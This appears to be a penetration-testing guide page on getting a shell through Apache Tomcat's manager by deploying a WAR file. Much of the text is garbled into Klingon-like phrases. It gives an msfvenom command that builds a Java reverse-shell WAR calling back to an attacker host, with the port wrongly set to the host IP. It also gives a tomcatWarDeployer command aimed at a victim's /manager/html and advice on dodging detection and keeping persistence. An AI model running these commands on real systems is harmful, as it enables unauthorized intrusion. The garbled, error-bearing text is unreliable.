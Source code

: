 1. Create the war to deploy:

### MSFVenom qeylIS

1. war yIlo' deploy:
```bash
msfvenom -p java/shell_reverse_tcp LHOST=<LHOST_IP> LPORT=<LHOST_IP> -f war -o revshell.war
```
2. `revshell.war` file jImej 'oH vItlhutlh (`/revshell/`) je:

### [tomcatWarDeployer.py](https://github.com/mgeeky/tomcatWarDeployer) vIleghlaH 'ej vItlhutlh

vaj 'e' vItlhutlh (tlhIngan Hol: 'ejmey sun) vItlhutlh.
```bash
git clone https://github.com/mgeeky/tomcatWarDeployer.git
```
#### Qa'Hom 'ej Qa'Hom

A reverse shell is a type of shell in which the target machine initiates the connection to the attacker's machine. This allows the attacker to gain remote access to the target machine and execute commands on it.

To establish a reverse shell, the attacker needs to set up a listener on their machine and then exploit a vulnerability on the target machine to execute a reverse shell payload. Once the payload is executed, it connects back to the attacker's machine, providing them with a shell session.

There are various ways to create a reverse shell, depending on the target machine's operating system and the available tools. Some common methods include using netcat, socat, or a dedicated reverse shell tool like `msfvenom` from the Metasploit Framework.

When setting up a reverse shell, it is important to consider the following:

- **Port**: Choose a port that is not blocked by firewalls or monitored by network security tools.
- **Payload**: Use a payload that is compatible with the target machine's operating system and architecture.
- **Encryption**: If possible, encrypt the communication between the target machine and the attacker's machine to avoid detection.
- **Persistence**: Implement persistence mechanisms to maintain access to the target machine even after a reboot.

Remember that using reverse shells for unauthorized access to systems is illegal and unethical. Reverse shells should only be used for legitimate purposes, such as penetration testing or authorized system administration tasks.
```bash
./tomcatWarDeployer.py -U <username> -P <password> -H <ATTACKER_IP> -p <ATTACKER_PORT> <VICTIM_IP>:<VICTIM_PORT>/manager/html/
```
#### Bind shell

A bind shell is a type of shell that allows an attacker to gain remote access to a target system. It works by binding a shell to a specific port on the target system, allowing the attacker to connect to that port and gain control over the system.

To create a bind shell, the attacker needs to have a listening shell on their own machine and a way to execute commands on the target system. Once the bind shell is established, the attacker can use the listening shell to execute commands on the target system and interact with it as if they were sitting in front of it.
